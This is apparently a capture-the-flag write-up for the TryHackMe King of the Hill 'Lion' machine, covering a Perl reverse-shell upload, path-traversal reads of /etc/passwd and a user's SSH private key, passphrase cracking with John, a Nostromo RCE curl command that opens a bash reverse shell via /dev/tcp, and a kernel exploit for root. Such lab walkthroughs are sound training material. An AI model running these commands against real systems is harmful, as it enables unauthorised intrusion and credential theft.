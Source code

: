 # Tryhackme King Of The Hill(koth) Lion
```
	writeup for lion machine over at https://tryhackme.com/games/koth

	I wont be showing you where the flags are located but they are really easy to find so it shouldn't be too much of a problem
```

# Foothold

## /upload directory as alex
```
	we can see there is a /upload directory at port 80 once we dir bust it
	
	uploading a normal php reverse shell is not gonna work in this case
	
	we need to upload a perl reverse shell(https://raw.githubusercontent.com/pentestmonkey/perl-reverse-shell/master/perl-reverse-shell.pl)

	change the ip and port and start listening

	once you upload the perl reverse shell you will get a shell as alex.

	for some reason in the source code it executes the script uploaded with perl.
```

![alt text](https://raw.githubusercontent.com/ozzzozo/writeups/main/thm/koth/img.png)

## LFI(Local File Inclusion) as gloria
```
	there is a LFI at port 5555 with param ?page

	we can get the users list by looking in /etc/passwd

	http://machineip:5555/?page=../../../../../../../../etc/passwd		
	
	we see there are alex,marty,gloria

	out of those 3 users we can get gloria's id_rsa to connect via ssh

	http://machineip:5555/?page=../../../../../../../../home/gloria/.ssh/id_rsa

	save it to a file

```
```	
	chmod 400 id_rsa
	ssh2john id_rsa > john
	john -w=/usr/share/wordlists/rockyou.txt john; 
```
```
	to crack id_rsa password with john
	we get passpharse 'dance' for gloria's id_rsa

	now we use the id_rsa with passpharse 'dance'

	ssh -i id_rsa gloria@machineip -p 1337
```

## Nostromo 1.9.6 vulns - Remote Code Execution as gloria
```
	Script:
		https://www.exploit-db.com/exploits/47837

	Metasploit:
		exploit/multi/http/nostromo_code_exec
	
	Manual method:
		nc -lnvp someport
		curl -s -X POST 'http://machineip:8080/.%0d./.%0d./.%0d./bin/sh' -d '/bin/bash -c "/bin/bash -i >& /dev/tcp/yourip/someport 0>&1"' 
	
	can't cd into folders but can ls and cat - we need to get in via ssh
	ls /home; to get user names

	cat /home/gloria/.ssh/id_rsa; to get gloria's id_rsa for ssh

```
```
	chmod 400 id_rsa
	ssh2john id_rsa > john
	john -w=/usr/share/wordlists/rockyou.txt john; to crack id_rsa password with john
```
```
	we get passpharse 'dance' for gloria's id_rsa

	now we use the id_rsa with passpharse 'dance'

	ssh -i id_rsa gloria@machineip -p 1337 
```

# Getting root
```
	we run linpeas to find the following
```

## tmux (gloria only?)
```
	/usr/bin/tmux -S /.dev/session attach -t 0
```

## Kernel exploit
```
		wget https://github.com/gugronnier/CVE-2017-16995/blob/master/exploit-poc-pentest.c
		gcc --static exploit-poc-pentest.c -o exploit-poc-pentest
		chmod +x ./exploit-poc-pentest 
		
		upload the binary to the machine and run it to get root.
```

